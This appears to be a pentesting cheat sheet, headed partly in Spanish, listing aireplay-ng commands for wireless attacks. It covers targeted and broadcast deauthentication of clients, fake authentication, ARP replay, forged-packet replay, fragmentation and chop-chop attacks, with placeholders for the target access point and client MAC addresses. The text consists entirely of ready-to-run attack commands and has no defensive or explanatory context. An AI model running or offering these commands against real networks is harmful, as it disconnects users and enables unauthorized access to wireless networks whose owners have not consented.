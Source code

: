 ### Pruebas de inyección y calidad:
$ aireplay-ng --test {INTERFACE}
### Desautenticación dirigida:
$ aireplay-ng -0 10 -a {BSSID-AP} -c {CLIENT-MAC} {INTERFACE}
### Desautentificación global:
$ aireplay-ng -0 0 -e {ESSID-AP} -c FF:FF:FF:FF:FF:FF {INTERFACE}
$ aireplay-ng -0 0 -e {ESSID-AP} {INTERFACE}
$ aireplay-ng -0 0 -a {BSSID-AP} {INTERFACE}
### Fake Authentication Attack:
$ aireplay-ng -1 0 -e {ESSID-AP} -a {BSSID-AP} -h {YOUR_MAC} {INTERFACE}
### ARP Replay Attack:
$ aireplay-ng -3 -b {BSSID-AP} -h {YOUR-MAC} {INTERFACE}
### Interactive Packet replay Attack:
$ aireplay-ng -2 -b {BSSID-AP} -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 {INTERFACE}
$ aireplay-ng -2 -r replay_src-{FILE_NAME.cap} {INTERFACE}
### Interactive Packet Replay Attack with the forge ARP packet:
$ aireplay-ng -2 -r {ARP_PACKET_NAME} {INTERFACE}
### Fragmentation Attack:
$ aireplay-ng -5 -b {BSSID-AP} -h {YOUR-MAC} {INTREFACE}
### Chop chop Attack:
$ aireplay-ng -4 -b {BSSID-AP} -h {YOUR-MAC} {INTERFACE}